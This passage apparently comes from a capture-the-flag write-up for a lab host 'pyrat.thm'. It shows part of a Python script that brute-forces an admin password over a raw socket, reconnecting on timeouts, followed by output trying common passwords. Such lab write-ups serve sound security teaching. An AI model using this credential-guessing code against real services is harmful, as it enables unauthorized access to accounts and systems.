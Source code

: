 ```python

            try:
                # Send password to the server
                client_socket.sendall(password.encode('ascii') + b"\n")
                print(f"Trying password: {password}")

                # Read server response
                response = client_socket.recv(1024)
                decoded_response = response.decode('ascii')

                # Print the server response
                print(decoded_response)

                # Check if the password was accepted (no "password" prompt anymore)
                if "password" not in decoded_response.lower():
                    print(f"Password found: {password}")
                    break
            except socket.timeout:
                print("Timeout during password attempt. Re-establishing connection...")
                client_socket.close()
                client_socket = socket_connect()
                if client_socket:
                    if not login(client_socket):
                        break
                else:
                    break
            time.sleep(1)  # Avoid overwhelming the server with too many requests

def main():
    client_socket = socket_connect()
    if client_socket:
        if login(client_socket):
            try_passwords(client_socket)
        client_socket.close()

if __name__ == "__main__":
    main()

```

Waiting for the process and finally get the correct password:

```python
$ python3 crack_passwd.py
Connected to pyrat.thm:8000
Sent username: admin
Password:

Trying password: 123456
Password:

Trying password: admin
Password:

Trying password: 12345678
Timeout during password attempt. Re-establishing connection...
Connected to pyrat.thm:8000
Sent username: admin
Password:

Trying password: 123456789
Password:

Trying password: 1234
```
